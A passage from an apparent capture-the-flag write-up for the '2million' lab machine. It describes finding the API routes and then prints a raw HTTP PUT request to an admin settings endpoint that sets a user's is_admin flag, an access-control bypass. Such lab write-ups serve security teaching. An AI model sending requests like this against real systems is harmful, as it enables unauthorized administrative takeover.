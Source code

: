 ![Alt text](/assets/images/TwoMillionMakingAccount.png)

After logging in we are informed that a database migration is being performed and some features are unavailable. So as I looked around most of the pages didn't work, but i could access the `/home/access` endpoint.

I was kinda lost here at this point so I googled how to test API's [Hack Tricks API](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/web-api-pentesting), now after playing around and changing the url I got all the api routes by requesting `/api/v1`:



### Getting Admin Access

To add our created user an admin we can send a PUT request:


```
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/json
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=m1m3o51qc1l8uigsqgr6df6s9f
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 43

{
"email": "asd@asd.asd",
"is_admin":1
```